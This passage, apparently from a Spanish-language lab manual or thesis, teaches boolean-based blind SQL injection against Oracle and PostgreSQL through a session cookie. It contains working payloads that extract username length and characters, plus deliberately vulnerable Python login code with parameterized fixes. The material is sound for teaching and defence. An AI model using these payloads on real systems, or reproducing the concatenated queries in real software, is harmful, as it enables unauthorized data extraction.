El propósito principal de una inyección Blind es obtener información sensible de la base de datos, como:
\begin{itemize}
    \item Nombres de tablas y columnas.
    \item Estructura de la base de datos.
    \item Datos confidenciales, como credenciales de usuarios.
\end{itemize}

Aunque las inyecciones Blind suelen requerir más tiempo que otros tipos de ataques debido a su naturaleza iterativa, son altamente efectivas en aplicaciones donde no se permiten mensajes de error explícitos.

\subsection{Ejemplo básico de una inyección Blind basada en booleanos}

Supongamos que un atacante intenta determinar si el usuario \texttt{admin} existe en la base de datos mediante el siguiente payload:

\begin{lstlisting}[language=SQL]
admin' AND '1'='1' --
\end{lstlisting}

Si la aplicación responde positivamente (por ejemplo, mostrando un mensaje de éxito), el atacante deduce que el usuario \texttt{admin} existe. Si, en cambio, introduce una condición que siempre es falsa:

\begin{lstlisting}[language=SQL]
admin' AND '1'='2' --
\end{lstlisting}

Y la aplicación responde negativamente (por ejemplo, mostrando un mensaje de error o devolviendo una página en blanco), el atacante puede confirmar su hipótesis. Este proceso puede extenderse para obtener más información sobre la base de datos.

\subsection{Importancia de prevenir este tipo de ataques}

Aunque las inyecciones Blind no proporcionan información directa, son una herramienta poderosa para los atacantes que buscan explotar vulnerabilidades en aplicaciones web. Prevenir este tipo de ataques es esencial para proteger la confidencialidad, integridad y disponibilidad de los datos almacenados en la base de datos.

Medidas como la validación estricta de entradas, el uso de consultas parametrizadas y la reducción de diferencias en las respuestas de la aplicación son fundamentales para mitigar el riesgo de inyecciones SQL Blind.

\section{Inyección Blind basada en condiciones booleanas}
Para acceder a la sección específica para esta inyección en el laboratorio, una vez desplegado el servidor, se debe seleccionar la opción Boolean-Based Blind SQL Injection, en Oracle o en PostgreSQL.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind1.png}
    \caption{Opción de Boolean-Based Blind SQL Injection en el laboratorio de inyecciones SQL}
\end{figure}

Como se ha comentado anteriormente, las inyecciones \textbf{Blind} no reportan ningún tipo de mensaje de error interno, por lo que el atacante debe buscar otros medios para obtener información sensible. Una de las opciones más comunes es "\textit{jugar}" con la cookie de sesión. La mayoría de las aplicaciones web utilizan cookies para almacenar información de sesión, como el ID de usuario o el token de autenticación. Al modificar manualmente la cookie de sesión, el atacante puede intentar obtener información sensible. \\

En este caso, se simulará la intercepción de la petición de inicio de sesión mediante la herramienta \textbf{Burp Suite}. Una vez interceptada la petición, se modificará manualmente la cookie de sesión para realizar una inyección \textbf{Blind Boolean} en ese campo.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind2.png}
    \caption{Botón para "interceptar" la petición de inicio de sesión}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind3.png}
    \caption{Petición de inicio de sesión interceptada en Burp Suite}
\end{figure}

Una vez interceptada la petición se puede observar como efectivamente existe un campo de \textit{cookie} de sesión. En este caso, el valor que tiene corresponde a la \textit{cookie} de sesión de un \textit{user1}. Si se hace click en el botón \textit{Forward}, se enviará la petición al servidor, y se podrá observar la respuesta de la aplicación.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind4.png}
    \caption{Respuesta del servidor al envío de la petición}
\end{figure}

Se puede observar en la figura anterior que, como la \textit{cookie} de sesión es válida y corresponde a un usuario registrado, habrá un cambio en la aplicación, en este caso un mensaje de bienvenida. Si por el contrario la \textit{cookie} de sesión no es válida, la aplicación no mostraría nada, no sufriría cambios.\\

Esto puede ser utilizado por un atacante para evaluar si ciertas condiciones se cumplen en la base de datos. En caso de que se cumplan, la aplicación mostrará un mensaje de bienvenida, en caso contrario, no mostrará nada.

\subsection{Entendiendo la inyección}

Para ilustrar el funcionamiento de una inyección Blind basada en condiciones booleanas, se presenta un caso básico en el que el atacante busca evaluar si una condición es \texttt{TRUE} o \texttt{FALSE}. Dependiendo del resultado de la condición, la aplicación cambia su comportamiento.

\subsubsection{Payload válido (condición TRUE)}

El siguiente payload se utiliza para evaluar una condición que siempre es verdadera:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND '1'='1
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{d382yd8n21df4314fn817yf6834188ls023d8d} es el valor inicial de la cookie de sesión.
    \item La condición \texttt{AND '1'='1'} siempre se evalúa como verdadera.
\end{itemize}

\textbf{Comportamiento de la aplicación:} Dado que la condición es verdadera, la aplicación reconoce la cookie de sesión como válida y genera un cambio visible, como un mensaje de bienvenida.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind4.png} 
    \caption{Cambio en la aplicación al evaluar una condición TRUE}
\end{figure}

\subsubsection{Payload inválido (condición FALSE)}

El siguiente payload se utiliza para evaluar una condición que siempre es falsa:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND '1'='2
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{d382yd8n21df4314fn817yf6834188ls023d8d} sigue siendo el valor inicial de la cookie de sesión.
    \item La condición \texttt{AND '1'='2'} siempre se evalúa como falsa.
    \item Como resultado, la consulta original de la aplicación no devuelve ningún resultado válido.
\end{itemize}

\textbf{Comportamiento de la aplicación:} Dado que la condición es falsa, la aplicación no reconoce la cookie de sesión como válida y no genera ningún cambio visible.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind5.png}
    \caption{Sin cambios en la aplicación al evaluar una condición FALSE}
\end{figure}

\subsubsection{Explicación del funcionamiento}

La diferencia en el comportamiento de la aplicación entre las dos condiciones permite al atacante inferir si la consulta SQL subyacente ha devuelto resultados válidos o no. Este patrón de comportamiento constituye la base de las inyecciones \textbf{Blind}.

\subsection{Obtención de la longitud de un campo de la base de datos}

El objetivo de esta inyección \textbf{Blind Boolean} es determinar la longitud del nombre de usuario almacenado en el primer registro de la tabla \texttt{Usuarios}. Esto se logra mediante una consulta que evalúa si la longitud (\texttt{LENGTH}) del campo \texttt{username} coincide con un valor específico. Dependiendo del resultado de la evaluación, la aplicación se comportará de manera diferente, permitiendo al atacante deducir el resultado.

\subsubsection{Payload para una condición TRUE}

El siguiente payload verifica si la longitud del nombre de usuario en el primer registro de la tabla \texttt{Usuarios} es igual a \texttt{5}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 5) THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{LENGTH(username)}: Calcula la longitud del nombre de usuario.
    \item \texttt{CASE WHEN (LENGTH(username) = 5) THEN 1 ELSE 1/0 END}: 
    - Si la longitud del nombre de usuario es igual a \texttt{5}, se devuelve \texttt{1}.
    - Si no, se intenta dividir por \texttt{0}, lo que provoca un error y hace que la consulta falle.
    \item \texttt{(SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1}: Selecciona únicamente el primer registro de la tabla \texttt{Usuarios}.
    \item \texttt{= 1}: Evalúa si el resultado del \texttt{CASE} es igual a \texttt{1}.
\end{itemize}

Dado que el primer usuario en la base de datos tiene un nombre de usuario con exactamente \texttt{5} caracteres, esta inyección se evalúa como \texttt{TRUE}, y la aplicación muestra un cambio visible.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind4.png}
    \caption{Cambio en la aplicación al evaluar que la longitud del campo es 5 (TRUE)}
\end{figure}

\subsubsection{Payload para una condición FALSE}

El siguiente payload verifica si la longitud del nombre de usuario en el primer registro de la tabla \texttt{Usuarios} es igual a \texttt{33}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 33) THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item Todos los componentes del payload son idénticos al anterior, excepto la condición \texttt{LENGTH(username) = 33}.
    \item Como el primer usuario de la base de datos no tiene un nombre de usuario con una longitud de \texttt{33} caracteres, el \texttt{CASE} evalúa la opción \texttt{ELSE}, lo que provoca un error al intentar dividir por \texttt{0}. AL tratase de una inyección \textbf{Blind}, la aplicación no muestra mensajes de error visibles, simplemente no hay cambios en la respuesta.
\end{itemize}

Dado que la condición es falsa, la consulta falla y la aplicación no muestra ningún cambio visible.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind5.png}
    \caption{Sin cambios en la aplicación al evaluar que la longitud del campo no es 33 (FALSE)}
\end{figure}

\subsubsection{Explicación del funcionamiento}

La lógica de las inyecciones se basa en:
\begin{itemize}
    \item Utilizar la función \texttt{LENGTH} para calcular la longitud del nombre de usuario.
    \item Introducir una estructura \texttt{CASE} que genere un error si la condición no se cumple. Este error provoca un fallo en la consulta y, por ende, en la respuesta de la aplicación (sin mensajes de error visibles).
    \item Evaluar el comportamiento de la aplicación (mensaje de bienvenida o falta de respuesta) para deducir si la condición es verdadera o falsa.
\end{itemize}

\textbf{Por qué una consulta devuelve TRUE y la otra FALSE:}
\begin{itemize}
    \item En el primer caso, el primer usuario de la base de datos tiene un nombre de usuario con una longitud de \texttt{5} caracteres. Por lo tanto, la condición \texttt{LENGTH(username) = 5} se evalúa como \texttt{TRUE}, y el \texttt{CASE} devuelve \texttt{1}.
    \item En el segundo caso, la longitud del nombre de usuario no es \texttt{33}, lo que activa la opción \texttt{ELSE} del \texttt{CASE}, provocando un error de división por cero. Esto hace que la consulta falle.
\end{itemize}

\subsection{Obtención de un carácter específico de un campo de la base de datos}

El objetivo de esta inyección \textbf{Blind Boolean} es determinar el valor de un carácter específico del nombre de usuario almacenado en el primer registro de la tabla \texttt{Usuarios}. Esto se logra mediante una consulta que compara el carácter seleccionado con un valor específico. Dependiendo del resultado de la comparación, la aplicación se comportará de manera diferente, lo que permite al atacante deducir el valor del carácter.

\subsubsection{Payload para una condición TRUE}

El siguiente payload verifica si el primer carácter del nombre de usuario en el primer registro de la tabla \texttt{Usuarios} es igual a \texttt{'a'}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{SUBSTR(username, 1, 1)}: Extrae el primer carácter (\texttt{1, 1}) del nombre de usuario.
    \item \texttt{CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1 ELSE 1/0 END}:
    - Si el primer carácter es igual a \texttt{'a'}, se devuelve \texttt{1}.
    - Si no, se intenta dividir por \texttt{0}, lo que provoca un error y hace que la consulta falle. AL tratase de una inyección \textbf{Blind}, la aplicación no muestra mensajes de error visibles, simplemente no hay cambios en la respuesta.
    \item \texttt{(SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1}: Selecciona únicamente el primer registro de la tabla \texttt{Usuarios}.
    \item \texttt{= 1}: Evalúa si el resultado del \texttt{CASE} es igual a \texttt{1}.
\end{itemize}

Dado que el primer usuario en la base de datos es \texttt{'admin'}, cuyo primer carácter es \texttt{'a'}, esta inyección se evalúa como \texttt{TRUE}, y la aplicación muestra un cambio visible.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind4.png}
    \caption{Cambio en la aplicación al evaluar que el carácter es 'a' (TRUE)}
\end{figure}

\subsubsection{Payload para una condición FALSE}

El siguiente payload verifica si el primer carácter del nombre de usuario en el primer registro de la tabla \texttt{Usuarios} es igual a \texttt{'z'}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'z') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item Todos los componentes del payload son idénticos al anterior, excepto la condición \texttt{SUBSTR(username, 1, 1) = 'z'}.
    \item Como el primer usuario de la base de datos tiene el nombre de usuario \texttt{'admin'}, cuyo primer carácter no es \texttt{'z'}, el \texttt{CASE} evalúa la opción \texttt{ELSE}, lo que provoca un error al intentar dividir por \texttt{0}.
\end{itemize}

Dado que la condición es falsa, la consulta falla y la aplicación no muestra ningún cambio visible.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/blind5.png}
    \caption{Sin cambios en la aplicación al evaluar que el carácter no es 'z' (FALSE)}
\end{figure}

\subsubsection{Explicación del funcionamiento}

La lógica de las inyecciones se basa en:
\begin{itemize}
    \item Utilizar la función \texttt{SUBSTR} para extraer el carácter deseado del nombre de usuario.
    \item Introducir una estructura \texttt{CASE} que genere un error si la condición no se cumple. Este error provoca un fallo en la consulta y, por ende, en la respuesta de la aplicación (sin mensajes de error visibles).
    \item Evaluar el comportamiento de la aplicación (mensaje de bienvenida o falta de respuesta) para deducir si la condición es verdadera o falsa.
\end{itemize}

\textbf{Por qué una consulta devuelve TRUE y la otra FALSE:}
\begin{itemize}
    \item En el primer caso, el primer usuario de la base de datos tiene el nombre de usuario \texttt{'admin'}, cuyo primer carácter es \texttt{'a'}. Por lo tanto, la condición \texttt{SUBSTR(username, 1, 1) = 'a'} se evalúa como \texttt{TRUE}, y el \texttt{CASE} devuelve \texttt{1}.
    \item En el segundo caso, el primer carácter del nombre de usuario no es \texttt{'z'}, lo que activa la opción \texttt{ELSE} del \texttt{CASE}, provocando un error de división por cero. Esto hace que la consulta falle.
\end{itemize}

\subsection{Diferencias de las inyecciones en PostgreSQL}

Aunque las inyecciones \textbf{Blind Boolean} comparten un principio básico entre Oracle y PostgreSQL, existen diferencias significativas en la sintaxis y las funciones específicas utilizadas debido a las particularidades de cada sistema de gestión de bases de datos. En PostgreSQL, la adaptación de las consultas para las inyecciones discutidas anteriormente incluye los cambios ilustrados en las siguientes secciones.

\subsubsection{Obtención de la longitud de un campo}

En PostgreSQL, las diferencias principales radican en:
\begin{itemize}
    \item La función \texttt{ROW\_NUMBER() OVER()} se utiliza en lugar de \texttt{ROWNUM} para asignar un número de fila a cada registro.
    \item En lugar de provocar un error con una división por cero (\texttt{1/0}), se devuelve un valor arbitrario como \texttt{999} en la opción \texttt{ELSE} del \texttt{CASE}. Esto se debe a que PostgreSQL evalua la consulta completa antes de ejecutarla, y si encuentra un error, no se ejecuta y lanza error.
\end{itemize}

\paragraph{Inyección que devuelve TRUE}
La siguiente inyección verifica si la longitud del nombre de usuario en el primer registro es igual a \texttt{5}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 5) THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{LENGTH(username)} calcula la longitud del nombre de usuario.
    \item \texttt{ROW\_NUMBER() OVER()} asigna un número de fila a cada registro, comenzando por \texttt{1}.
    \item La condición \texttt{LENGTH(username) = 5} se evalúa como \texttt{TRUE}, devolviendo \texttt{1}, lo que provoca un cambio visible en la aplicación.
\end{itemize}

\paragraph{Inyección que devuelve FALSE}
La siguiente inyección verifica si la longitud del nombre de usuario en el primer registro es igual a \texttt{33}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 33) THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}

Dado que el nombre de usuario en el primer registro no tiene \texttt{33} caracteres, la condición se evalúa como \texttt{FALSE}, devolviendo \texttt{999}. Esto hace que la consulta no genere cambios visibles en la aplicación.

\subsubsection{Obtención de un carácter específico de un campo}

En PostgreSQL, las principales diferencias para esta inyección son:
\begin{itemize}
    \item La función \texttt{SUBSTRING} se utiliza en lugar de \texttt{SUBSTR} para extraer un carácter específico de una cadena.
    \item La función \texttt{SUBSTRING} requiere las palabras clave \texttt{FROM} y \texttt{FOR} para indicar la posición inicial y la longitud del segmento a extraer.
\end{itemize}

\paragraph{Inyección que devuelve TRUE}
La siguiente inyección verifica si el primer carácter del nombre de usuario en el primer registro es \texttt{'a'}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTRING(username FROM 1 FOR 1) = 'a') THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}

En este caso:
\begin{itemize}
    \item \texttt{SUBSTRING(username FROM 1 FOR 1)} extrae el primer carácter del nombre de usuario.
    \item La condición \texttt{SUBSTRING(username FROM 1 FOR 1) = 'a'} se evalúa como \texttt{TRUE}, devolviendo \texttt{1}, lo que provoca un cambio visible en la aplicación.
\end{itemize}

\paragraph{Inyección que devuelve FALSE}
La siguiente inyección verifica si el primer carácter del nombre de usuario en el primer registro es \texttt{'z'}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTRING(username FROM 1 FOR 1) = 'z') THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}

Dado que el primer carácter del nombre de usuario en el primer registro no es \texttt{'z'}, la condición se evalúa como \texttt{FALSE}, devolviendo \texttt{999}. Esto hace que la consulta no genere cambios visibles en la aplicación.

\subsubsection{Resumen de las diferencias entre Oracle y PostgreSQL}

\begin{itemize}
    \item En PostgreSQL, \texttt{ROW\_NUMBER() OVER()} se utiliza para asignar números de fila, mientras que en Oracle se utiliza \texttt{ROWNUM}.
    \item La función \texttt{SUBSTRING} reemplaza a \texttt{SUBSTR} en PostgreSQL.
    \item PostgreSQL evalúa la consulta completa antes de ejecutarla, lo que impide el uso de errores de división por cero para provocar fallos.
    \item La sintaxis de \texttt{SUBSTRING} requiere el uso de \texttt{FROM} y \texttt{FOR}, mientras que \texttt{SUBSTR} en Oracle utiliza parámetros posicionales.
\end{itemize}

A pesar de estas diferencias entre \textbf{SGBD}, el principio subyacente de las inyecciones \textbf{Blind Boolean} sigue siendo el mismo.

\subsection{Código vulnerable del login}

En esta sección se documenta el código que utiliza el valor de la cookie de sesión para comprobar si esta es válida. El problema radica en que el valor de la cookie proporcionado por el usuario es concatenado directamente en la consulta SQL, lo que permite la ejecución de inyecciones SQL, incluidas las inyecciones \textbf{Blind Boolean}.

\subsubsection{Código vulnerable en Oracle}

A continuación, se presenta el código en Python para el login en Oracle:

\begin{lstlisting}[language=Python]
def login_inseguro_blind_oracle(cookie_value):
    print("---login_inseguro_blind_oracle---")
    conexion = dbConectarOracle()
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    # Simular inyección SQL blind via cookie
    sentencia = "SELECT * FROM Usuarios WHERE session_cookie = '" + cookie_value + "'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchone()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
            return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
        else:
            print("Usuario o cookie incorrectos")
            return {"sentencia": sentencia}
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario con cookie")
        print(error)
        return {"resultado": error, "sentencia": sentencia}
\end{lstlisting}

\textbf{Localización de la vulnerabilidad:} La vulnerabilidad se encuentra en la construcción de la variable \texttt{sentencia}, donde el valor de la cookie proporcionado por el usuario (\texttt{cookie\_value}) se concatena directamente en la consulta SQL sin ningún tipo de validación ni sanitización:

\begin{lstlisting}[language=Python]
sentencia = "SELECT * FROM Usuarios WHERE session_cookie = '" + cookie_value + "'"
\end{lstlisting}

Esta práctica permite que un atacante manipule el valor de la cookie para incluir un payload malicioso, como las inyecciones \textbf{Blind Boolean} documentadas anteriormente.

\subsubsection{Versión segura del código en Oracle}

Para prevenir esta vulnerabilidad, se debe emplear el uso de consultas parametrizadas. A continuación, se presenta una versión segura del código:

\begin{lstlisting}[language=Python]
def login_seguro_blind_oracle(cookie_value):
    print("---login_seguro_blind_oracle---")
    conexion = dbConectarOracle()
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    # Evitar concatenación directa usando consultas parametrizadas
    sentencia = "SELECT * FROM Usuarios WHERE session_cookie = (*@\colorbox{yellow}{:cookie\_value}@*)"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia, {"cookie_value": cookie_value})
        usuario = cursor.fetchone()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
            return {"resultado": usuario, "auth": "true"}
        else:
            print("Usuario o cookie incorrectos")
            return {"auth": "false"}
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario con cookie")
        print(error)
        return {"resultado": error}
\end{lstlisting}

La consulta parametrizada (\texttt{:cookie\_value}) asegura que el valor de la cookie sea tratado como un literal, eliminando la posibilidad de ejecutar código SQL malicioso.

\subsubsection{Código vulnerable en PostgreSQL}

A continuación, se presenta el código en Python para el login en PostgreSQL:

\begin{lstlisting}[language=Python]
def login_inseguro_blind_postgresql(cookie_value):
    print("---login_inseguro_blind_postgresql---")
    conexion = dbConectarPostgreSQL()
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    # Simular inyección SQL blind via cookie
    sentencia = "SELECT * FROM Usuarios WHERE session_cookie = '" + cookie_value + "'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchone()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
            return {"resultado": usuario, "sentencia": sentencia, "auth": "true"}
        else:
            print("Usuario o cookie incorrectos")
            return {"sentencia": sentencia}
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario con cookie")
        print(error)
        return {"resultado": error, "sentencia": sentencia}
\end{lstlisting}

\textbf{Localización de la vulnerabilidad:} La vulnerabilidad en PostgreSQL también radica en la concatenación directa del valor de la cookie en la consulta SQL:

\begin{lstlisting}[language=Python]
sentencia = "SELECT * FROM Usuarios WHERE session_cookie = '" + cookie_value + "'"
\end{lstlisting}

Esto permite a un atacante manipular el valor de la cookie para realizar inyecciones SQL, incluida la ejecución de consultas \textbf{Blind Boolean}.

\subsubsection{Versión segura del código en PostgreSQL}

La versión segura del código utiliza consultas parametrizadas, que protegen contra inyecciones SQL:

\begin{lstlisting}[language=Python]
def login_seguro_blind_postgresql(cookie_value):
    print("---login_seguro_blind_postgresql---")
    conexion = dbConectarPostgreSQL()
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    # Evitar concatenación directa usando consultas parametrizadas
    sentencia = "SELECT * FROM Usuarios WHERE (*@\colorbox{yellow}{session\_cookie = \%s}@*)"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia, (cookie_value,))
        usuario = cursor.fetchone()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
